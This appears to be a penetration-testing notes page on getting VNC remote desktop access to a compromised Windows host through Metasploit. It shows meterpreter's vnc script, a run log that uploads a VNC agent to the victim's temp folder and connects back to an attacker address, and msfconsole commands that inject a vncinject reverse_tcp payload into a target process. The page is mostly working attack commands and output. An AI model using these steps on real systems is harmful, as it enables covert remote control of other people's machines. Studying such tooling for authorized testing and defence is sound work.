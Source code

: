 ### Method 1

In metasploit / meterpreter, the script `vnc.rb` allow you to drop an vnc executable on the victim computer that listen for new connection and automatically, reverse port forward this port (5900 by default) on the interface `127.0.0.1` of the attacker. So the attacker just have to connect via a vnc client to the address `127.0.0.1:5900`

> Once the connection is closed or interupt you have to re-run this script to connect again

##### Usage
```
meterpreter > run vnc -h

OPTIONS:
    -c   Enable the VNC courtesy shell
    -D   Disable the automatic exploit/multi/handler (use with -r to accept on another system)
    -h   This help menu
    -i   Inject the vnc server into a new process's memory instead of building an exe
    -O   Disable binding the VNC proxy to localhost (open it to the network)
    -p   The port on the remote host where Metasploit is listening (default: 4545)
    -P   Executable to inject into (starts a new process).  Only useful with -i (default: notepad.exe)
    -r   The IP of a remote Metasploit listening for the connect back
    -t   Tunnel through the current session connection. (Will be slower)
    -v   The local port for the VNC proxy service (default: 5900)
    -V   Disable the automatic launch of the VNC client
```

##### Exploitation

By default the script connect automatically to the vnc server, but I discourage that, since it use the default client which don't appeat to work in my case.
So to deactivate automatic client connection I use **-V** 
```
meterpreter > run vnc -V
[*] Creating a VNC reverse tcp stager: LHOST=192.168.0.12 LPORT=4545
[*] Running payload handler
[*] VNC stager executable 73802 bytes long
[*] Uploaded the VNC agent to C:\Windows\TEMP\faXPeF.exe (must be deleted manually)
[*] Executing the VNC agent with endpoint 192.168.0.12:4545...
meterpreter >
```

Then connect on my own, using `xtigervncviewer` on the address `127.0.0.1:5900`

### Method 2

The second method is explained in this [ippsec video](https://youtu.be/E8h0qWsBz6c?t=3711)

Use metasploit post-exploitation module `payload_inject` to inject a vnc payload in a meterpreter session

```bash
msf6 > use exploit/windows/local/payload_inject
msf6 exploit(windows/local/payload_inject) > set PAYLOAD payload/windows/x64/vncinject/reverse_tcp

msf6 exploit(windows/local/payload_inject) > set PID <target PID>
msf6 exploit(windows/local/payload_inject) > set SESSION <target meterpreter IP>

msf6 exploit(windows/local/payload_inject) > set LHOST <your attacker ip>
msf6 exploit(windows/local/payload_inject) > set LPORT <your listener port>

# you can set ViewOnly if you want
# don't edit VNCHOST
# don't edit VNCPORT
```
